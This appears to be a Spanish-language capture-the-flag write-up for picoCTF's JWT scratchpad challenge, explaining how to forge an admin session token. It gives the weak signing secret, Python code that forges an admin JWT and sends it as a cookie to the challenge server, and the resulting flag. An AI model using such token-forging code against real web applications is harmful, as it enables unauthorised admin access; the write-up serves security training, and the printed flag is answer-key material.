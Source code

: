 ## Descripción 
Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/63090/` or http://jupiter.challenges.picoctf.org:63090
## Solución
Iniciar sesion con John y ver el token que esta en formato JWT en  las cookies.

"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiSm9obiJ9.K1Omo0Gk5saKwJTkkgT7PUZohD7USknEE0lmT2AYAiM"

	python3 -c "
	import jwt
	secret = 'ilovepico'
	admin_jwt = jwt.encode({'user': 'admin'}, secret, algorithm='HS256')
	print('JWT correcto para admin:', admin_jwt)
	"
Usar este codigo para debuggear el token en consola.

> import jwt
> import requests
> 
> secret = 'ilovepico'
> admin_jwt = jwt.encode({'user': 'admin'}, secret, algorithm='HS256')
> print('JWT para admin:', admin_jwt)
> 
> cookies = {'jwt': admin_jwt}
> response = requests.get('http://jupiter.challenges.picoctf.org:63090/', cookies=cookies)
> 
> print('=== BUSCANDO FLAG ===')
> if 'picoCTF' in response.text:
>     import re
>     flag_match = re.search(r'picoCTF\{[^}]*\}', response.text)
>     if flag_match:
>         print('✅ FLAG ENCONTRADA:', flag_match.group())
>     else:
>         print('picoCTF encontrado pero no en formato esperado')
>         print(response.text)
> else:
>     print('Revisando respuesta...')
>     if 'admin' in response.text.lower():
>         print('Parece que funciona como admin')
>     print('Primeros 1000 caracteres:')
>     print(response.text[:1000])

Con ese codigo obtenemos la flag.
flag = "picoCTF{jawt_was_just_what_you_thought_f859ab2f}"

## Notas Adicionales 
## Referencias
